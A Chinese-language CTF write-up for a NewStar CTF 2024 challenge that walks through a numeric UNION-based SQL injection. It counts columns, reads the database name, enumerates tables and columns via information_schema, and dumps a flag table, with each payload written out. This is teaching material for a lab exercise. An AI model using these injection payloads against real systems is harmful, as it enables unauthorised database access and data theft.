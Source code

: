 ```yaml
---
title: WriteUp
titleTemplate: ':title - NewStar CTF 2024'
---
```


# 谢谢皮蛋

数字型注入，联合注入  
判断列数和回显位，其实看页面上的格式也基本可以判断

```sql
1 order by 2#
-1 union select 1,2#
```

查看当前数据库

```sql
-1 union select 1,database()#
```

![这里理应是配图](/assets/images/wp/2024/week1/xiexiepidan_1.png)

查看当前数据库所有表名

```sql
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![这里理应是配图](/assets/images/wp/2024/week1/xiexiepidan_2.png)

查看Fl4g表所有列名（当然如果你想看看有些什么英雄也是完全ok，你可以在皮蛋的情报网里畅游）

```sql
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='Fl4g' and table_schema=database()#
```

![这里理应是配图](/assets/images/wp/2024/week1/xiexiepidan_3.png)

查看值得到flag

```sql
-1 union select group_concat(des),group_concat(value) from Fl4g#
```
